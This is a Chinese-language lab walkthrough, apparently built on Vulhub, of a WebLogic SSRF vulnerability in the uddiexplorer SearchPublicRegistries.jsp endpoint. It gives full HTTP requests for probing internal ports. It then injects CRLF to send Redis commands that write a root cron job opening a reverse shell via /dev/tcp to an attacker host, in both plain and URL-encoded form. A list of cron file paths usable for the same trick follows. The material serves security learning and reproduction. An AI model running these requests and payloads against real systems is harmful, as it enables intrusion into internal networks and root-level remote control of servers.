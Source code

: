 # Weblogic SSRF漏洞

## 漏洞描述

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。

## 环境搭建

Vulhub编译及启动测试环境：

```
docker-compose up -d
```

访问`http://your-ip:7001/uddiexplorer/`，无需登录即可查看uddiexplorer应用。

![image-20220302210736666](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022107741.png)

## 漏洞复现

SSRF漏洞存在于`http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp`，我们在burpsuite下测试该漏洞。访问一个可以访问的IP:PORT，如`http://127.0.0.1:80`：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: your-vps-ip:7001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

可访问的端口将会得到错误，一般是返回status code（如下图），如果访问的非http协议，则会返回`did not have a valid SOAP content-type`。

![image-20220302211012943](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022110046.png)

修改为一个不存在的端口，将会返回`could not connect over HTTP to server`。

![image-20220302211141064](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022111161.png)

通过错误的不同，即可探测内网状态。

### 反弹shell

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

> 此处kali启动redis失败，转为CentOS vps进行复现。

首先，通过ssrf探测内网中的redis服务器（docker环境的网段一般是172.*），发现`172.18.0.2:6379`可以连通：

![image-20220302220543308](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022205403.png)

发送三条redis命令，将弹shell脚本写入`/etc/crontab`：

```
test

set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/your-reverse-shell-ip/9999 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save

aaa
```

进行url编码：

```
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fyour-reverse-shell-ip%2F9999%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

注意，换行符是“\r\n”，也就是“%0D%0A”。

将url编码后的字符串放在ssrf的域名后面，发送：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.20.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fyour-reverse-shell-ip%2F9999%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: your-vps-ip:7001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

成功反弹：

![image-20220302220843300](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022208358.png)

最后补充一下，可进行利用的cron有如下几个地方：

- /etc/crontab 这个是肯定的
- /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
- /var/spool/cron/root是centos系统下root用户的cron文件
- /var/spool/cron/crontabs/root是debian系统下root用户的cron文件

## 开源POC

- https://github.com/0xn0ne/weblogicScanner
- https://github.com/rabbitmask/WeblogicScan
- https://github.com/dr0op/WeblogicScan

